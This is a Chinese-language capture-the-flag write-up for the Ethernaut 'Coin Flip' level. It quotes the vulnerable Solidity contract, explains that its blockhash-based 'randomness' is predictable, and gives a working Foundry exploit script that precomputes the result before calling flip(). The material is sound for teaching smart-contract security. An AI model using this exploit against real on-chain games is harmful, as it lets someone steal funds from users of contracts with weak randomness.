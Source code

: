 # Level 3 - Coin Flip
## 題目
[Coin Flip](https://ethernaut.openzeppelin.com/level/0xA62fE5344FE62AdC1F356447B669E9E6D10abaaF)

### 通關條件
這是一個擲銅板的遊戲。你需要連續地猜對擲出來的結果。為了完成這一關，你需要利用你的超能力，然後連續猜對十次。
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```
## 解題
這一題的目標是跟合約玩猜硬幣的遊戲，並且要連續猜對 10 次
所以我們可以嘗試從合約中找到它是怎麼決定這把要出什麼，首先合約中只有一個 function `flip(bool _guess)` 也就是呼叫這個 function 並決定你要猜 true 或是 false，可以從第 24 行看到它是用 `side == _guess` 進行比較，而 `side` 的計算方式在 21 - 22 行決定，決定方式如下：
```solidity=21
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
```
也就是說，這個值不是隨機的。我們只要將一樣的計算方式放入我們的攻擊合約就好。

21 行的 `FACTOR` 可以在第 7 行找到，是常數。`blockValue` 就比較麻煩了，可以在第 14 行中找到，但是它使用到 `block.number` ，所以我們每次猜的時候必須要跟合約在同一個區塊上
但是 16, 20 行又禁止每次猜的時候在同一個區塊。所以這題我們必須寫一個計算它出什麼然後呼叫 `flip()` 的合約，並且呼叫 10 次

>[!Tip]
>`block.number` 是 Solidity 的全域變數，Solidity 的全域變數通常用來儲存與區塊鏈或是交易有關的資訊，其他常見的全域變數可以參考：[[英文] Understanding Solidity Global Variables: Types and Uses](https://metana.io/blog/solidity-global-variables-types-and-uses/)

確認每個變數以及計算方式後，就可以攻破這關了，攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/03_CoinFlip.sol";

contract ExploitScript is Script {
    CoinFlip public level03 = CoinFlip(your_challenge_address);
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function run() external {
        vm.startBroadcast();

        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        level03.flip(side);

        vm.stopBroadcast();
    }
}
```
接下來只要透過 forge 呼叫 10 次即可。